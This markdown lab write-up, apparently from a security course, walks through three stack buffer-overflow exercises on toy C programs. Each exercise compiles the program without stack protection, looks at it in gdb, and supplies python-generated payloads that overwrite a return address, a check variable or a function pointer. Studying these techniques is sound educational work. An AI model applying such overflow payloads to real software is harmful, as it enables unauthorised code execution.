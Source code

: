 # BOF1
## Interpret the attack:
![bof1-stack-frame](../img/bof1/stack-frame.png)

### Vulnerability:
The `gets()` function reads input without checking the length, which can lead to a **buffer overflow** vulnerability.
### Exploitation:
Overflow the array in `vuln()` to overwrite the return address and jump to `secretFunc()`.

## Conducting the attack:
1. Disable stack protection
    ```
    gcc -g bof1.c -o bof1.o -fno-stack-protector -mpreferred-stack-boundary=2
    ```
2. Load bof1.o in gdb
    ```
    gdb bof1.o
    ```
3. Once you load out bof1.out in gdb, use the disassemble command to display the assembly code for a secretFunc() memory region
   ![bof1-disas-secretFunc](../img/bof1/secretFunc.png)
4. The secretFunc() memory region is `0x0804846b`. Now, we can try attack to this point by running file and passing value to array[200]:
    ```
    echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.o
    ```
    ![bof1-missing-arguments](../img/bof1/missing-arguments.png)
5. Continue by add the variables a,b,1,2,... to the end of bof1.out, this will lead to buffer over flow
    ```
    echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.o 123
    ```
    ![bof1-succeed](../img/bof1/succeed.png)
---
# BOF2
## Interpret the attack:
![bof2-stack-frame](../img/bof2/stack-frame.png)

### Vulnerability:
The fgets() function reads `45` bytes into a buffer of `40` bytes, allowing **overflow**.
### Exploitation:
Overflow the buffer to modify the check variable.
Change check from `0x04030201` to `0xdeadbeef`, triggering the winning condition.

## Conducting the attack:
1. Disable stack protection
    ```
    gcc -g bof2.c -o bof2.o -fno-stack-protector -mpreferred-stack-boundary=2
    ```
2. Load bof2.o in gdb
    ```
    gdb bof2.o
    ```
3. Lets try to pass 44 byte to print out this statement `You are on the right way!`
    ```
    echo $(python -c "print('a'*40 + '\x01\x02\x03\x02')") | ./bof2.o   
    ```
    ![bof2-less-than-45-byte](../img/bof2/44byte.png)
4. Now change the passing variable to meet the goal
    ```
    echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.o   
    ```
    ![bof2-win](../img/bof2/win.png)
---
# BOF3
## Interpret the attack:
![bof3-stack-frame](../img/bof3/stack-frame.png)

### Vulnerability:
The `fgets()` function reads `133` bytes into a buffer of `128` bytes, causing a buffer overflow.
The overflow can modify the function pointer `func()`.
### Exploitation:
Overflow `buf` and overwrite the function pointer `func` to point to the `shell()` function.

## Conducting the attack:
1. Disable stack protection
    ```
    gcc -g bof3.c -o bof3.o -fno-stack-protector -mpreferred-stack-boundary=2
    ```
2. Load bof2.o in gdb
    ```
    gdb bof3.o
    ```
3. Func is a pointer which is pointing to `sup()` address. So to override and change this pointer to `shell()` address we have to find the address of shell function <br>
    ![bof3-shell](../img/bof3/shell.png)
4. The attack 
    ```
    echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.o
    ```
    ![bof3-the-attack](../img/bof3/attack.png)
